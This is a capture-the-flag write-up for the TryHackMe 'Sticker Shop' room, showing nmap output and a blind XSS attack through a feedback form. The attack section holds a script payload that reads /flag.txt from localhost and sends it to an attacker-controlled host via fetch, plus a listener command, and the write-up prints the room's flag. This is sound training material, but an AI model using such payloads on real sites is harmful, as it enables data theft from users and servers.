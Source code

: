 # The Sticker Shop Write-up

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1718377390091" width="200" height="200">

## Recon 

### NMap

`nmap -sC -sV 10.10.225.208`

    PORT     STATE SERVICE    VERSION
    22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
    |   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
    |_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
    8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
    |_http-title: Cat Sticker Shop
    |_http-server-header: Werkzeug/3.0.1 Python/3.8.10
   
Main page:

![image](https://github.com/user-attachments/assets/5bf7d47e-5961-4f0d-aa74-8a46616f41e8)

Feedback page:

![image](https://github.com/user-attachments/assets/df705f0c-d600-4d20-a7d3-cf840ce07851)

![image](https://github.com/user-attachments/assets/578220e9-ebec-47e1-b71c-f66cfa5ebad1)

`/flag.txt` page:

![image](https://github.com/user-attachments/assets/cea7bd48-2e42-4ac2-bb23-fa0f91da8e38)

## Exploitation

### Blind XSS

The exploitation consisted of fetching sensitive data from the local host via `fetch` and sending it to an external server via another `fetch` request.

Payload:

    '"><script>
      fetch('http://127.0.0.1:8080/flag.txt')
        .then(response => response.text())
        .then(data => {
          fetch('http://<YOUR-IP-ADDRESS-tun0>:8000/?flag=' + encodeURIComponent(data));
        });
    </script>

Open local python server and use XSS payload!

`python3 -m http.server <PORT>`

![image](https://github.com/user-attachments/assets/162820d2-6add-49e6-b546-2f9738ebb0e3)

Now, we can get the flag!

![image](https://github.com/user-attachments/assets/69d38d01-7b08-421b-98ea-d2f4f7434f67)

FLAG:

    THM{83789a69074f636f64a38879cfcabe8b62305ee6}
